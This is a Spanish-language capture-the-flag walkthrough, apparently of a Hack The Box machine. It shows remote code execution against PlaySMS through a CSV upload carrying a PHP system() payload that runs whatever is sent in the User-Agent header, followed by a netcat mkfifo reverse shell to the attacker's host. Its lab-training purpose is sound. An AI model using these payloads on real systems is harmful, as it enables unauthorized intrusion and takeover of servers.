 Buscamos un exploit que nos permite hacer RCE.

```bash
searchsploit playsms | grep -v -i metasploit | grep -i "remote code execution"
searchsploit -x 42044
```

Aqui el exploit nos dice que una vez loggeado con cualquier usuario, tenemos que ir a la url 
```bash
 http://10.10.10.111:9999/playsms/index.php?app=main&inc=feature_phonebook&route=import&op=list 
```
,
y uploadear un fichero malicioso backdoor.csv

```csv
Name,Mobile,Email,Groupe code,Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>,22,,
```

Aqui podemos ver que el exploit usa una cabezera para transmitir el comando que queremos ejecutar con la fuccion php 
```bash
 system() 
```
. Esto quiere decir que tenemos que uzar
burpsuite para cambiar el user agent durante el upload.

Lanzamos Burpsuite y interceptamos el envio del fichero backdoor.csv. Cambiamos el User-Agent con 
```bash
 whoami 
```
, Forwardeamos la peticion y en la web podemos ver

```bash
 www-data 
```
 en la columna Name.

## Vuln exploit & Gaining Access {-}

### Ganando acceso con PlaySMS {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Enviamos nuevamente el csv a la web y interceptamos la peticion con burpsuite
1. Cambiamos el User-agent 

    ```bash
    User-Agent: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 443 >/tmp/f
    ```

Ya hemos ganado acceso al systema.

### Tratamiento de la TTY {-}
